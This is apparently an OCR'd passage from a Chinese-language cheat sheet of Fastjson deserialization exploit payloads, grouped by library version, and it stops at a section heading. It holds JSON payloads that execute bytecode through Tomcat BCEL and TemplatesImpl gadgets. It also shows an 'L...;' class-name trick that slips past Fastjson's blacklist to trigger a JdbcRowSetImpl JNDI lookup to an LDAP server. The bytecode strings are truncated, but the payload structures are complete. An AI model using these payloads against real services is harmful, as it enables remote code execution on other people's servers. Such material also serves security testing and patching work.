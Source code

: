 4. BCEL字节码执行 (`Tomcat`)
    
    需要`tomcat-dbcp`库
    
    ```java
    {
        {
            "x": {
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
            }
        }: "x"
    }
    ```
    
5. `TemplatesImpl`字节码执行
    
    不需要依赖
    
    ```java
    {
        "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
        "_bytecodes": ["yv66vg..."],
        "_name": "a.b",
        "_tfactory": {},
        "_outputProperties": {}
    }
    ```
    

## Fastjson 1.2.25 - 1.2.41

添加类的黑名单

1. `L...; Bypass`
    
    payload示例：(其他的和1.2.24都相同)
    
    ```java
    {
        "@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
        "dataSourceName": "ldap://localhost:1389/badNameClass",
        "autoCommit": true
    }
    ```
    

## Fastjson 1.2.25 - 1.2.42

1.2.42扳了`L...; Bypass`

1. `LL...;; Bypass`
    